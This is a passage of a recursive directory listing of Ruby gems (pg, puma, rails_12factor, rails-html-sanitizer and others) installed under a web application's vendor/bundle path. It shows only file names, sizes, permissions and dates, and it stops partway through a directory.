-rw-r--r-- 1 rails rails 6.6K Sep 16  2016 pg_type_map_by_class.c
-rw-rw-r-- 1 rails rails  31K Sep 16  2016 pg_type_map_by_class.o
-rw-r--r-- 1 rails rails 9.0K Sep 16  2016 pg_type_map_by_column.c
-rw-rw-r-- 1 rails rails  44K Sep 16  2016 pg_type_map_by_column.o
-rw-r--r-- 1 rails rails 7.4K Sep 16  2016 pg_type_map_by_mri_type.c
-rw-rw-r-- 1 rails rails  66K Sep 16  2016 pg_type_map_by_mri_type.o
-rw-r--r-- 1 rails rails  10K Sep 16  2016 pg_type_map_by_oid.c
-rw-rw-r-- 1 rails rails  45K Sep 16  2016 pg_type_map_by_oid.o
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 pg_type_map.c
-rw-r--r-- 1 rails rails 9.4K Sep 16  2016 pg_type_map_in_ruby.c
-rw-rw-r-- 1 rails rails  40K Sep 16  2016 pg_type_map_in_ruby.o
-rw-rw-r-- 1 rails rails  26K Sep 16  2016 pg_type_map.o
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.time
-rw-r--r-- 1 rails rails 4.7K Sep 16  2016 util.c
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 util.h
-rw-rw-r-- 1 rails rails  18K Sep 16  2016 util.o
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 vc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/ext/vc:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pg_18
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pg_19
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 pg.sln

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/ext/vc/pg_18:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 pg.vcproj

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/ext/vc/pg_19:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 pg_19.vcproj

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/lib:
total 636K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pg
-rwxr-xr-x 1 rails rails 617K Sep 16  2016 pg_ext.so
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 pg.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/lib/pg:
total 60K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  14K Sep 16  2016 basic_type_mapping.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 coder.rb
-rwxr-xr-x 1 rails rails 6.9K Sep 16  2016 connection.rb
-rw-r--r-- 1 rails rails  156 Sep 16  2016 constants.rb
-rw-r--r-- 1 rails rails  121 Sep 16  2016 exceptions.rb
-rw-r--r-- 1 rails rails  507 Sep 16  2016 result.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 text_decoder.rb
-rw-r--r-- 1 rails rails  761 Sep 16  2016 text_encoder.rb
-rw-r--r-- 1 rails rails  317 Sep 16  2016 type_map_by_column.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/sample:
total 100K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  461 Sep 16  2016 array_insert.rb
-rwxr-xr-x 1 rails rails 3.4K Sep 16  2016 async_api.rb
-rwxr-xr-x 1 rails rails  833 Sep 16  2016 async_copyto.rb
-rwxr-xr-x 1 rails rails 1.5K Sep 16  2016 async_mixed.rb
-rw-r--r-- 1 rails rails  449 Sep 16  2016 check_conn.rb
-rwxr-xr-x 1 rails rails 3.6K Sep 16  2016 copyfrom.rb
-rwxr-xr-x 1 rails rails  406 Sep 16  2016 copyto.rb
-rwxr-xr-x 1 rails rails  574 Sep 16  2016 cursor.rb
-rwxr-xr-x 1 rails rails 3.8K Sep 16  2016 disk_usage_report.rb
-rwxr-xr-x 1 rails rails 2.2K Sep 16  2016 issue-119.rb
-rwxr-xr-x 1 rails rails 1.9K Sep 16  2016 losample.rb
-rwxr-xr-x 1 rails rails  458 Sep 16  2016 minimal-testcase.rb
-rwxr-xr-x 1 rails rails 1.4K Sep 16  2016 notify_wait.rb
-rwxr-xr-x 1 rails rails 7.7K Sep 16  2016 pg_statistics.rb
-rwxr-xr-x 1 rails rails 5.6K Sep 16  2016 replication_monitor.rb
-rwxr-xr-x 1 rails rails  806 Sep 16  2016 test_binary_values.rb
-rwxr-xr-x 1 rails rails  12K Sep 16  2016 wal_shipper.rb
-rwxr-xr-x 1 rails rails 7.4K Sep 16  2016 warehouse_partitions.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/spec:
total 32K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 data
-rwxr-xr-x 1 rails rails 9.2K Sep 16  2016 helpers.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pg
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 pg_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/spec/data:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  542 Sep 16  2016 expected_trace.out
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 random_binary_data

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/spec/pg:
total 148K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 8.9K Sep 16  2016 basic_type_mapping_spec.rb
-rwxr-xr-x 1 rails rails  47K Sep 16  2016 connection_spec.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 result_spec.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 type_map_by_class_spec.rb
-rw-r--r-- 1 rails rails 8.0K Sep 16  2016 type_map_by_column_spec.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 type_map_by_mri_type_spec.rb
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 type_map_by_oid_spec.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 type_map_in_ruby_spec.rb
-rw-r--r-- 1 rails rails  552 Sep 16  2016 type_map_spec.rb
-rw-r--r-- 1 rails rails  28K Sep 16  2016 type_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0:
total 100K
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 COPYING
-rw-r--r--  1 rails rails 4.0K Sep 16  2016 DEPLOYMENT.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 docs
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails  208 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails  27K Sep 16  2016 History.txt
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 2.1K Sep 16  2016 puma.gemspec
-rw-r--r--  1 rails rails 4.0K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails  14K Sep 16  2016 README.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 tools

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/bin:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  113 Sep 16  2016 puma
-rwxr-xr-x 1 rails rails  151 Sep 16  2016 pumactl
-rw-r--r-- 1 rails rails  401 Sep 16  2016 puma-wild

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/docs:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 config.md
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 nginx.md
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 signals.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 puma_http11

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/ext/puma_http11:
total 480K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  296 Sep 16  2016 extconf.rb
-rw-r--r-- 1 rails rails  548 Sep 16  2016 ext_help.h
-rw-r--r-- 1 rails rails  24K Sep 16  2016 http11_parser.c
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 http11_parser_common.rl
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 http11_parser.h
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 http11_parser.java.rl
-rw-rw-r-- 1 rails rails  42K Sep 16  2016 http11_parser.o
-rw-r--r-- 1 rails rails 3.5K Sep 16  2016 http11_parser.rl
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 io_buffer.c
-rw-rw-r-- 1 rails rails  24K Sep 16  2016 io_buffer.o
-rw-rw-r-- 1 rails rails 7.8K Sep 16  2016 Makefile
-rw-r--r-- 1 rails rails 9.3K Sep 16  2016 mini_ssl.c
-rw-rw-r-- 1 rails rails 100K Sep 16  2016 mini_ssl.o
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 org
-rw-r--r-- 1 rails rails  13K Sep 16  2016 puma_http11.c
-rw-rw-r-- 1 rails rails  71K Sep 16  2016 puma_http11.o
-rw-r--r-- 1 rails rails  431 Sep 16  2016 PumaHttp11Service.java
-rwxrwxr-x 1 rails rails 135K Sep 16  2016 puma_http11.so
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.-.puma.time

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/ext/puma_http11/org:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 jruby

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/ext/puma_http11/org/jruby:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 puma

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/ext/puma_http11/org/jruby/puma:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 9.6K Sep 16  2016 Http11.java
-rw-r--r-- 1 rails rails  16K Sep 16  2016 Http11Parser.java
-rw-r--r-- 1 rails rails 9.7K Sep 16  2016 MiniSSL.java

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 puma
-rw-r--r-- 1 rails rails  208 Sep 16  2016 puma.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rack

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/puma:
total 348K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  486 Sep 16  2016 accept_nonblock.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 app
-rw-r--r-- 1 rails rails 9.0K Sep 16  2016 binder.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 capistrano.rb
-rw-r--r-- 1 rails rails 6.2K Sep 16  2016 client.rb
-rw-r--r-- 1 rails rails  14K Sep 16  2016 cli.rb
-rw-r--r-- 1 rails rails 9.9K Sep 16  2016 cluster.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 commonlogger.rb
-rw-r--r-- 1 rails rails  414 Sep 16  2016 compat.rb
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 configuration.rb
-rw-r--r-- 1 rails rails 7.8K Sep 16  2016 const.rb
-rw-r--r-- 1 rails rails 6.6K Sep 16  2016 control_cli.rb
-rw-r--r-- 1 rails rails  608 Sep 16  2016 daemon_ext.rb
-rw-r--r-- 1 rails rails  201 Sep 16  2016 delegation.rb
-rw-r--r-- 1 rails rails   54 Sep 16  2016 detect.rb
-rw-r--r-- 1 rails rails 8.8K Sep 16  2016 dsl.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 events.rb
-rw-r--r-- 1 rails rails  111 Sep 16  2016 io_buffer.rb
-rw-r--r-- 1 rails rails  782 Sep 16  2016 java_io_buffer.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 jruby_restart.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 minissl.rb
-rw-r--r-- 1 rails rails  508 Sep 16  2016 null_io.rb
-rwxr-xr-x 1 rails rails 135K Sep 16  2016 puma_http11.so
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rack
-rw-r--r-- 1 rails rails  117 Sep 16  2016 rack_default.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 reactor.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 runner.rb
-rw-r--r-- 1 rails rails  23K Sep 16  2016 server.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 single.rb
-rw-r--r-- 1 rails rails  661 Sep 16  2016 tcp_logger.rb
-rw-r--r-- 1 rails rails 5.3K Sep 16  2016 thread_pool.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 util.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/puma/app:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 status.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/puma/rack:
total 28K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 backports
-rw-r--r-- 1 rails rails 8.4K Sep 16  2016 builder.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 urlmap.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/puma/rack/backports:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 uri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/puma/rack/backports/uri:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 common_18.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 common_192.rb
-rw-r--r-- 1 rails rails  616 Sep 16  2016 common_193.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/rack:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 handler

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/lib/rack/handler:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 puma.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/tools:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 jungle
-rw-r--r-- 1 rails rails  918 Sep 16  2016 trickletest.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/tools/jungle:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 init.d
-rw-r--r-- 1 rails rails  182 Sep 16  2016 README.md
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 upstart

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/tools/jungle/init.d:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 8.5K Sep 16  2016 puma
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 README.md
-rwxr-xr-x 1 rails rails   96 Sep 16  2016 run-puma

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/puma-2.14.0/tools/jungle/upstart:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 puma.conf
-rw-r--r-- 1 rails rails  882 Sep 16  2016 puma-manager.conf
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_12factor-0.0.3:
total 48K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   99 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails  154 Sep 16  2016 .gitignore
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 rails_12factor.gemspec
-rw-r--r--  1 rails rails  210 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails   60 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_12factor-0.0.3/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails_12factor
-rw-r--r-- 1 rails rails   93 Sep 16  2016 rails_12factor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_12factor-0.0.3/lib/rails_12factor:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   45 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_12factor-0.0.3/test:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  118 Sep 16  2016 helper.rb
-rw-r--r-- 1 rails rails  307 Sep 16  2016 test_rails_12factor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2:
total 28K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   86 Sep 16  2016 CHANGELOG.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE.txt
-rw-r--r--  1 rails rails 3.8K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 rails-html-sanitizer.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2/lib/rails:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 html

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2/lib/rails/html:
total 28K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sanitizer
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 sanitizer.rb
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 scrubbers.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2/lib/rails/html/sanitizer:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   89 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails-html-sanitizer-1.0.2/test:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  18K Sep 16  2016 sanitizer_test.rb
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 scrubbers_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4:
total 56K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  293 Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails  332 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails  185 Sep 16  2016 .gitignore
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 rails_serve_static_assets.gemspec
-rw-r--r--  1 rails rails  457 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 4.1K Sep 16  2016 README.md
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  212 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/gemfiles:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  112 Sep 16  2016 3.2.gemfile
-rw-r--r-- 1 rails rails  111 Sep 16  2016 4.1.gemfile
-rw-r--r-- 1 rails rails  111 Sep 16  2016 4.2.gemfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails_serve_static_assets
-rw-r--r-- 1 rails rails  107 Sep 16  2016 rails_serve_static_assets.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/lib/rails_serve_static_assets:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  349 Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails   54 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 integration
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 rails_app
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/integration:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  632 Sep 16  2016 static_file_service_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app:
total 40K
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 app
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 config
-rw-r--r-- 1 rails rails  155 Sep 16  2016 config.ru
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 db
-rw-r--r-- 1 rails rails  124 Sep 16  2016 perf.rake
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 public
-rw-r--r-- 1 rails rails  265 Sep 16  2016 Rakefile
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 script

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app:
total 24K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 controllers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 helpers
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 views

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/assets:
total 20K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 images
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 javascripts
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 stylesheets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/assets/images:
total 632K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 622K Sep 16  2016 schneems.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/assets/javascripts:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   15 Sep 16  2016 application.js
-rw-r--r-- 1 rails rails   12 Sep 16  2016 foo.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/assets/stylesheets:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  545 Sep 16  2016 application.css
-rw-r--r-- 1 rails rails   31 Sep 16  2016 foo.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/controllers:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
